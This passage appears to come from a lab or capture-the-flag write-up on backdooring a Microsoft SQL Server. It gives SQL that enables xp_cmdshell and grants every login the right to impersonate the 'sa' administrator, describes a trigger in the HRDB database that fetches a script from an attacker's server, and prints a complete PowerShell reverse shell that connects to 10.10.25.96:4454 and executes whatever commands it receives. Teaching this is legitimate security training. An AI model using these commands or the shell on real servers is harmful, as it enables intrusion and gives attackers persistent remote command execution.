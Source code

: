 ```sql
sp_configure 'Show Advanced Options',1;
RECONFIGURE;
GO

sp_configure 'xp_cmdshell',1;
RECONFIGURE;
GO
```

![](/assets/img/Pasted image 20230108180238.png)


##### 4. After this, we must ensure that any website accessing the database can run `xp_cmdshell`.

	- By default,only database users with the 'sysadmin' role will be able to do so. Basically, only the sysadmin is allowed to execute commands within the MSSQL server.
	- Since it is expected that web applications use a restricted db user,we can GRANT privileges to ALL users to impersonate the 'sa'(sysadmin) user, which is the default database administrator.

```sql
USE master

GRANT IMPERSONATE ON LOGIN::sa to [Public];
```

![](/assets/img/Pasted image 20230108180809.png)


##### 5. Configure a trigger:

	1. Change the HRDB database: 

```sql
USE HRDB
```

![](/assets/img/Pasted image 20230108181108.png)

	- HRDB is the database we are using. Its just the name of this database.


##### 6. Our trigger will leverage `xp_cmdshell` to execute PowerShell to download and run a `.ps1` file from a web server controlled by the attacker.

<u>Evilscript.ps1 in the attacker's machine</u>:

```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.25.96",4454);

$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
};

$client.Close()
```
